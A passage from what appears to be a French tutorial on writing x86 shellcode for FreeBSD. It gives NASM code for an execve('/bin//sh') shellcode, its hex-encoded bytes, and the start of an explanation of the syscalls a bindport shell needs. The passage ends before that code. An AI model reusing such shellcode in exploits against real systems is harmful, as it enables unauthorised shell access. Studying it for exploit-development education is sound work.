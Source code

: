 Afficher un caractère c'est bien, mais exécuter un shell serait mieux, non?

D'après le fichier syscalls.master, le syscall execve est le 59. Il prend trois arguments, le nom du fichier à exécuter (/bin/sh), les arguments du programme et l'environnement. Le dernier sera mit à NULL.

Voici ce que ça donne :

    :::nasm
	section .text
    global _start
	start:
	xor eax, eax
    push eax          ; nul byte
    push '//sh'
    push '/bin'       ; On stock la chaine sur la pile
	
    mov ebx, esp      ; Pointeur sur '/bin//sh'
    push eax          ; argv[1] = NULL
    push ebx          ; argv[0] = '/bin//sh'
    mov ecx, esp      ; ecx = argv
    push eax          ; Empile env (NULL)
    push ecx          ; Empile argv
    push ebx          ; Empile '/bin//sh'
    mov al, 59        ; Appel system execve() 
    push eax          ; PADDING
    int 0x80
	
Bon bien sûr ici je m'embête à remplir argv, ce qui n'est à priori pas nécessaire.

Testons :

	:::console
    [tosh@localhost /usr/home/tosh]$ nasm -f elf test.s && shelltest test.o
    Len : 27 bytes
    Shellcode : \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x50\x51\x53\xb0
    \x3b\x50\xcd\x80
    $

Parfait, nous avons notre shell !


#### Shellcodes & sockets ####

Bien, voyons un peu comment fonctionnent les appels systèmes liés aux sockets maintenant, en vue de faire par exemple un bindshell.

En regardant un peu dans syscalls.master, on remarque que presque toutes les primitives C tel que connect(), accept(), listen(), trouvent leurs équivalents dans les appels systèmes.

C'est je trouve plus simple que sur Linux, où il n'y a qu'un seul appel à socket, et dont le fonctionnement dépends du paramètre qu'on lui donne.

On retrouve ici une correspondance C -> assembleur, ce qui facilite la tâche.

Bien, pour un bindport, il faut donc effectuer les appels systèmes suivants : socket, bind, listen, accept, dup2, execve.
